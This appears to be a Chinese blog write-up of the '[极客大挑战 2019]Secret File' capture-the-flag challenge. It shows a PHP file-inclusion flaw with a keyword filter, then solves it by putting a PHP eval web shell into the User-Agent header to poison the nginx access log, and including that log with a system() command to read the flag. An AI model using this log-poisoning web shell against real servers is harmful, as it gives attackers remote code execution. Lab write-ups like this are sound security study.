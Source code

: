 ```yaml
---
sidebar: false
article: false
title: secret
date: 2024-09-14 15:25:34
permalink: /pages/276200/
author: 
  name: Cola
  link: https://the0n3.top
---
```



##  [极客大挑战 2019]Secret File

打开f12调试工具，看到页面源码存在文件`Archive_room.php`文件，访问

![arch](https://the0n3.top/medias/daily/secret/arch.png)

在`Archive_room.php`里的按钮点击后，跳转到了end.php。在调试工具网络里可以看到，这个过程请求了`action.php`，但是又跳到`end.php`了

![action](https://the0n3.top/medias/daily/secret/action.png)

一时手足无措了。看了大佬思路，发现可以bp抓包看这个过程的action.php，又学到了

![secr3t](https://the0n3.top/medias/daily/secret/secr3t.png)

抓包可以看到`action.php`页面有提示文件`secr3t.php`文件

访问secr3t.php，页面源码

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

一个简单的文件包含，但是过滤了`../`、`tp`、`input`、`data`，。还可以包含日志，那就试试。注意日志包含写木马不能有错误，有错误日志就不能用了，只能重新开容器

UA(user-agent)：`<?php highlight_file(__FILE__);eval($_GET[1]);?>`

payload：`?file=/var/log/nginx/access.log&1=system('tac flag.php');`

![flag](https://the0n3.top/medias/daily/secret/flag.png)